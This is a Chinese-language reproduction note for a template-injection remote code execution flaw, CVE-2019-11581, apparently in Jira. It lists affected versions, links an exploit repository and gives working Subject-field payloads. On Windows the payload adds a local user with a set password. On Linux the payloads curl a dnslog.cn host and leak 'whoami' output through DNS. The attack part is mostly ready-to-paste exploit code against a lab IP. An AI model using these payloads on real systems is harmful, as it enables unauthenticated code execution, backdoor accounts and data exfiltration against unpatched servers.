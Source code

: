 #### 漏洞描述

影响版本
```
4.4.x
5.x.x
6.x.x
7.0.x、7.1.x、7.2.x、7.3.x、7.4.x、7.5.x、7.6.x before 7.6.14 (the fixed version for 7.6.x)、7.7.x、7.8.x、7.9.x、7.10.x、7.11.x、7.12.x、7.13.x before 7.13.5 (the fixed version for 7.13.x)
8.0.x before 8.0.3 (the fixed version for 8.0.x)、8.1.x before 8.1.2 (the fixed version for 8.1.x)、8.2.x before 8.2.3 (the fixed version for 8.2.x)
```

### 漏洞复现

#### 漏洞验证

漏洞利用

> https://github.com/jas502n/CVE-2019-11581

确认未登陆状态下漏洞的存在

访问如下URL（无需管理员账户权限）：

http://10.10.10.12:8080/secure/ContactAdministrators!default.jspa

![image-20210919113350954](img/image-20210919113350954-16322839765956.png)

在Subject填入payload

针对不同目标操作系统的验证

- Windows
- Linux

##### Windows 利用

添加用户

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('net user neo 1qaz@WSX3edc /add').waitFor()
```

##### Linux 利用

登陆管理员账号，然后访问如下URL：

/secure/admin/SendBulkMail!default.jspa

```
# dnslog query
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl http://uz09sm.dnslog.cn').waitFor()

# dnslog 外带命令执行结果 示例：whoami
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('ping `whoami`.vniyj2.dnslog.cn').waitFor()
```

dnslog query

![image-20210919120024420](img/image-20210919120024420.png)


